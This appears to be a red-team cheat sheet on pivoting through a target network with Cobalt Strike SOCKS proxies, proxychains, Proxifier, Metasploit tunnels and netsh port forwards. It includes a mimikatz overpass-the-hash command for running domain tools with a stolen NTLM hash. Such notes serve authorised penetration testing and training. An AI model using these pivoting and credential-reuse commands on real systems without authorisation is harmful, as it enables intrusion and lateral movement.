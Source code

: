 #### Enable Socksproxy auth
- The enableLogging option sends additional logs (such as authentication failures) to the VM console, which you unfortunately can't see easily when the team server running as a service.  Instead, you can use journalctl:
```
socks <PORT> socks5 disableNoAuth <USER> <PASS> enableLogging
```

### Using proxychains
#### Proxychains
- For linux
- Change proxychains config `socks5 <IP> <PORT> <USER> <PASS>`
```
sudo vim /etc/proxychains.conf
proxychains <COMMAND>
```

#### Proxifier
- https://www.proxifier.com/
- For windows
- Open Proxifier, go to Profile -> Proxy Servers and Add a new proxy entry, which will point at the IP address and Port of your Cobalt Strike SOCKS proxy.
- Next, go to Profile -> Proxification Rules. This is where you can add rules that tell Proxifier when and where to proxy specific applications. Multiple applications can be added to the same rule, but in this example, I'm creating a single rule for adexplorer64.exe (part of the Sysinternals Suite).
- Target hosts fill in the target internal network range with the action ```proxy socks <TARGET>```
- NOTE: You will also need to add a static host entry in `C:\Windows\System32\drivers\etc\hosts` file: `<DC IP> <DOMAIN>`. You can enable DNS lookups through Proxifier, but that will cause DNS leaks from your computer into the target environment.

#### Proxychains netonly or overpass the hash
```
runas /netonly /user:<DOMAIN>\<USER> "C:\windows\system32\mmc.exe C:\windows\system32\dsa.msc"
sekurlsa::pth /user:<USER> /domain:<DOMAIN> /ntlm:<HASH> /run:"C:\windows\system32\mmc.exe C:\windows\system32\dsa.msc"
```

#### Browser
- Install FoxyProxy https://getfoxyproxy.org/
- Configure Proxy IP and port, Username and Password.
- NTLM auth: https://offensivedefence.co.uk/posts/ntlm-auth-firefox/

#### Metasploit
- In Cobalt Strike, go to View > Proxy Pivots, highlight the existing SOCKS proxy and click the Tunnel button. 
- Paste string in msfconsole
- Stop with ```socks stop```

### Manual port forwards
#### Remote port forward netsh
- Requires administrator privs
```
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=<PORT> connectaddress=<TARGET IP> connectport=<TARGET PORT> protocol=tcp
```
